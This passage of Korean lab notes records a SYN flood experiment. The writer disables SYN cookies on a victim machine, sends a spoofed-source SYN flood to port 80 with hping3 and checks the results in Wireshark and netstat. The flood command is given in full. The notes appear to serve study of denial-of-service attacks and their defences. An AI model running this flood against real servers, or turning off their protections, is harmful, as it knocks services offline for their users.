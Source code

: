     1. victim pc에서 syn cookie를 끈다.
        
        `sudo sysctl -w net.ipv4.tcp_syncookies=0` 처럼 끄면 된다.
        
    - 다만 끄기 전과 후 둘다 제대로 막고 있는 걸 확인했다. 이유는 더 찾아봐야할 것 같다…
    - 다시 키고 싶다면 `sudo sysctl -w net.ipv4.tcp_syncookies=1` 처럼 사용한다.
    
    1. 공격자 pc에서 hping을 이용해 공격한다.
        
        ```bash
        sudo hping3 -S -p 80 --flood --rand-source <IP> 방식으로 공격 가능. 
        #-S: SYN 플래그 설정
        #-p 80: 포트 80 (웹 서버의 기본 포트)
        #--flood: 패킷을 빠르게 보냄
        #--rand-source: 임의의 소스 IP를 사용하여 스푸핑
        ```
        
    2. 와이어샤크로 패킷을 캡쳐해 확인한다.
        
        <img src="img/36.png">
        
        위와 같이 수많은 syn 공격을 보내고 있고, 피해자는 rst,ack 패킷을 통해 막고 있는 모습을 볼 수 있다.
        
        또한 아래와 같이 Backlog queue를 직접 확인해볼 수도 있다.
        
        ```bash
        netstat -an | grep SYN
        # -i syn_recv (이러면 안됨. 대소문자를 잘 구별하자.)
        ```
        